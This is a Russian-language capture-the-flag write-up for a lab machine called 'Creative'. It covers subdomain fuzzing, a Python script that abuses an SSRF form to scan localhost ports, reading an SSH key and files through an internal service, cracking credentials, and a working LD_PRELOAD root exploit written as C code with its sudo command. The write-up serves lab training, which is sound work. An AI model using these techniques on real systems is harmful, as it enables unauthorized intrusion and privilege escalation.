





# Write-up: Creative

## Enumeration

Сканируем цель:

```bash
sudo nmap -sS -sV -sC -p- --min-rate=1500 10.145.167.121
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  tcpwrapped
80/tcp open  tcpwrapped
|_http-title: Did not follow redirect to http://creative.thm
```

Добавляем домен в `/etc/hosts`:

```text
10.145.167.121   creative.thm
```

Перед нами сайт:


## Фаззинг поддоменов

Запускаем `ffuf` по поддоменам (до этого делал и по эндпоинтам через `gobuster`, но результат не сохранил):

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6
```


Находим поддомен `beta`:


На `beta` есть форма, которая проверяет, «жив» ли сайт. Если мёртв — возвращает текст `Dead`.

## Сканирование localhost

Понимаю, что нужно найти порт на `localhost`, и пишу скрипт:

```python
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading
import requests

URL = "http://beta.creative.thm"
HEADERS = {
    "Host": "beta.creative.thm",
    "User-Agent": (
        "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 "
        "(KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
    ),
    "Accept": (
        "text/html,application/xhtml+xml,application/xml;q=0.9,"
        "image/avif,image/webp,image/apng,*/*;q=0.8,"
        "application/signed-exchange;v=b3;q=0.7"
    ),
    "Accept-Language": "en-US,en;q=0.9",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://beta.creative.thm",
    "Referer": "http://beta.creative.thm/",
}

print_lock = threading.Lock()
ports_lock = threading.Lock()


def search(session: requests.Session, port: int, timeout: float = 3.0) -> str | None:
    payload = {"url": f"http://localhost:{port}"}
    try:
        response = session.post(URL, headers=HEADERS, data=payload, timeout=timeout)
        return response.text
    except requests.RequestException:
        return None


def scan_ports(start_port: int = 1, end_port: int = 65535, max_workers: int = 30):
    ports_status: dict[int, str] = {}

    with requests.Session() as session, ThreadPoolExecutor(max_workers=max_workers) as executor:
        future_to_port = {
            executor.submit(search, session, port): port
            for port in range(start_port, end_port + 1)
        }

        for future in as_completed(future_to_port):
            port = future_to_port[future]
            resp = future.result()

            if resp is None:
                status = "Error"
                msg = f"{port}: request error"
            elif "Dead" not in resp:
                status = "Alive"
                msg = f"{port} is Alive"
            else:
                status = "Dead"
                msg = f"{port} is Dead"

            with ports_lock:
                ports_status[port] = status

            with print_lock:
                print(msg)

    return ports_status


if __name__ == "__main__":
    results = scan_ports(1, 65535, max_workers=30)
    alive_ports = [p for p, st in results.items() if st == "Alive"]
    print("Alive ports:", alive_ports)
```

Получаем:

```text
1337 is Alive
```

## Чтение файлов через localhost:1337

Сервис на `1337` — это директории Linux:



Можем перемещаться по директориям и читать файлы:

```text
http://localhost:1337/home/saad/user.txt
```



## SSH-ключ и passphrase

Забираем приватный ключ:

```text
http://localhost:1337/home/saad/.ssh/id_rsa
```

Крякаем passphrase:



```text
saad:sweetness
```

Заходим по SSH:



В `.bash_history` замечаем:

```text
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
```

## PrivEsc

Проверяем `sudo`:

```bash
sudo -l
```

```text
Matching Defaults entries for saad on ip-10-145-132-206:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User saad may run the following commands on ip-10-145-132-206:
    (root) /usr/bin/ping
```

`env_keep+=LD_PRELOAD` — прямая подсказка на **LD_PRELOAD hijacking**. Готовим C-скрипт:

```c
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    system("/bin/sh");
}
```

Компилируем:

```bash
gcc -fPIC -shared -o /tmp/shell.so /tmp/shell.c -nostartfiles
```

Запускаем:

```bash
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

Получаем root:



## Итоговая схема (Kill Chain)

`creative.thm` → `ffuf (beta.creative.thm)` → `SSRF-скрипт → localhost:1337` → `чтение файлов (user.txt, id_rsa)` → `john (passphrase sweetness)` → `SSH (saad)` → `.bash_history` → `sudo env_keep+=LD_PRELOAD + ping` → `LD_PRELOAD hijack → root`